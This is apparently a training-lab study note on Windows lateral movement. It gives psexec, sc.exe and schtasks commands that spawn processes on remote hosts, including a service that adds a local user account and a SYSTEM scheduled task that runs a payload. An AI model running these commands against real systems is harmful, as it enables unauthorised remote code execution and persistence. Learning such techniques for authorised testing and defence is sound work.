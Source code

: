 # Spawning Processes Remotely Knowledge

## Psexec
Ports: 445/TCP (SMB)  
Required Group Membership: Administrators

- Allows for the execution of processes on remote systems
- To run psexec, we need to supply the required administrator credentials for the remote host

<pre>psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe</pre>

## Remotely Creating Services - sc.exe
Ports:  
- 135/TCP, 49152-65535/TCP (DCE/RPC)  
- 445/TCP (RPC over SMB Named Pipes)
- 139/TCP (RPC over SMB Named Pipes)  

Required Group Memberships: Administrators  

Windows services can be used to run arbirary commands since they execute a command when started. While a service executable is different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create and start a service named `THMservice` on a remote machine using `sc.exe`:
<pre>sc.exe \\TARGET create THMservice binPath= "net user User1 Pass123 /add" start= auto</pre>
<pre>sc.exe \\TARGET start THMservice</pre>
- `net user` command will be executed when the service is started, creating a new local user on the system
- Unable to view the command output

To stop and delete the service:
<pre>sc.exe \\TARGET stop THMservice</pre>
<pre>sc.exe \\TARGET delete THMservice</pre>

## Creating Scheduled Tasks Remotely
<pre>schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "command/payload to execute" /sc ONCE /sd 01/01/1970 /st 00:00</pre>
<pre>schtasks /s TARGET /run /TN "THMtask1"</pre>

- Scheduled type `/sc` is set to ONCE (task is intended to run only once after the specified time and date)
- Output of the command wont be available to view (blind attack)  

Delete the scheduled task:
<pre>schtasks /S TARGET /TN "THMtask1" /DELETE /F</pre>

